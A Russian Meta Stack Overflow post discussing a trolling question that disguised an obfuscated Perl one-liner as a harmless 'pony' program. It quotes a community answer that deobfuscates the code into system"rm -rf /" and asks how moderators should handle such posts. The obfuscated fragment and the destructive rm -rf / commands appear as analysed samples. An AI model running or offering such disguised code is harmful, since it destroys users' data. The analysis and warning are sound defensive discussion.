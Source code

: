 ```yaml
---
title: "Post 10560"
se.owner.user_id: 337540
se.owner.display_name: "Victor VosMottor thanks Monica"
se.owner.link: "https://ru.meta.stackoverflow.com/users/337540/victor-vosmottor-thanks-monica"
se.link: "https://ru.meta.stackoverflow.com/q/10560"
se.post_id: 10560
se.post_type: question
se.score: 43
---
```

<h3>Вступление.</h3>
<p>Делая вчера очередь проверок, я наткнулся на вопрос заданный только вчера, содержащий код, но заминусованный капитально: -14 (на текущий момент -16). Думаю, что-то это слишком много, ну если обычно задают плохой вопрос (е.г. домашку, перевод, по-английски и т.д.), то если он недавний, то число даунвоутов где-то ∈ range(-2, -7). Я открыл вопрос и смотрю комментарии и ответ...</p>
<h3>Продолжение</h3>
<blockquote>
предлагаю удалить текст вопроса. – KoVadim 2 дня назад
5  <br><br>
<p>Я голосую за закрытие этого вопроса, потому что вопрос содержит вредоносный код в завуалированном виде. – aleksandr barakin 2 дня назад</p>
<p>Я просто хочу вывести красивого пони в терминале. Ничего вредоносного – Сергей Валерьевич 2 дня назад</p>
<p>пони выводятся по apt moo – KoVadim 2 дня назад</p>
<p>@aleksandrbarakin, может просто в ответе разобрать почему код вредоносный? :-) – Grundy 2 дня назад</p>
<p>внизу уже разобрали – KoVadim 2 дня назад</p>
<p>@KoVadim, я где-то видел именно по пунктам разбор, типа как эта строка преобразуется в аналог rm rf :) – Grundy 2 дня назад</p>
<p>что то модераторы не идут – KoVadim 2 дня назад</p>
<p>кстати, ассоциация: stackoverflow.com/q/9591658/2881286 – Grundy 2 дня назад
2</p>
<p>@Grundy, добавил разбор. – Centrix 2 дня назад
3</p>
<p>@aleksandrbarakin хоть это и троллинг, но вопрос правил не нарушает сам по себе. А хороший ответ только приветствуется.</p>
</blockquote>
<p>Разбор в ответе:</p>
<blockquote>
+9
<p>Эта программа удаляет все директории, в том числе и корневую /.</p>
<p>А если подробнее то:</p>
<p><code>echo &quot;test... test... test...&quot;</code> выполнение этой команды не влияет на работу и добавлено, скорее всего, для усыпления бдительности. То, что происходит в остальном коде — совсем не очевидно из-за преднамеренно запутанного написания. В данной строчке записано всего три последовательно выполняемых команды. Запишем команду следующим образом:</p>
<pre><code>$? ? s:;s:s;;$?: : s;;=]=&gt;%-{&lt;-|}&lt;&amp;|`{; ;
y; -/:-@[-`{-};`-{/&quot; -; ;
s;;$_;see
</code></pre>
<p>Первая конструкция анализирует переменную <code>$?</code> — код возврата предыдущей команды. Так как перед выполнением этой конструкции дочерних процессов не создавалось, $? будет содержать 0, и выполнена будет вторая «ветка» — <code>s;;=]=&gt;%-{&lt;-|}&lt;&amp;|</code>{;<code>. Эта команда, в свою очередь, заменяет строку в переменной-аккумуляторе </code>$_<code>на</code>=]=&gt;%-{&lt;-|}&lt;&amp;|{` (первый символ после s устанавливает ограничитель параметров этого оператора, и хотя традиционно используются слэш / или |, для неясности в этой конструкции используется ограничитель ;).</p>
<p>Вторая команда транслирует содержимое «аккумулятора» по достаточно сложным правилам. В левой части указано четыре диапазона символов, в правой — один. Если раскрыть эти диапазоны, получим следующее соответствие:</p>
<pre><code> !&quot;#$%&amp;'()*+,-./:;&lt;=&gt;?@[\]^_`{|}
`abcdefghijklmnopqrstuvwxyz{/&quot;
</code></pre>
<ul>
<li></li>
</ul>
<p>В результате содержимое $_ принимает вид:</p>
<pre><code>system&quot;rm -rf /&quot;
</code></pre>
<p>Третья же команда дважды (как инструктирует флаг ee) «вычисляет» содержимое аккумулятора — вышеуказанную деструктивную команду — и пытается заменить пустую строку в аккумуляторе на результат вычисления.</p>
</blockquote>
Comments:
<blockquote>
<p>Это неправда. Она должна рисовать красивого пони – Сергей Валерьевич 23 июн в 14:42</p>
<p>Знаем мы ваших пони. – Centrix 23 июн в 14:43
11</p>
<p>Ты троянская пони, троянская пони! ✨🌙 – andreymal 23 июн в 15:05</p>
</blockquote>
<a href="https://ru.stackoverflow.com/questions/1144804/%d0%a7%d1%82%d0%be-%d0%b4%d0%b5%d0%bb%d0%b0%d0%b5%d1%82-%d0%b4%d0%b0%d0%bd%d0%bd%d1%8b%d0%b9-%d0%be%d0%b4%d0%bd%d0%be%d1%81%d1%82%d1%80%d0%be%d1%87%d0%bd%d0%b8%d0%ba-%d0%bd%d0%b0-perl">Link to question</a>
<hr>
<h1>Что я хочу обсудить.</h1>
<p>Такие вопросы к счастью редки. Но они несут очень большую опасность. Любой не знающий перл или невнимательный человек мог запустить этот код и...  <code>sudo rm -rf /</code></p>
<p>Я считал, что наше SOобщество полностью защищено от троллей, но вот это — наша брешь. В правилах такие вопросы не оговариваюстя. Я предлагаю обсудить это в комментариях, и в качестве ответов предложить решение этой проблемы — что делать с такими вопросами? Предупреждения в самом вопросе — мало!</p>
<p><strong>P.S.</strong> За название — спасибо @andreymal'y!</p>

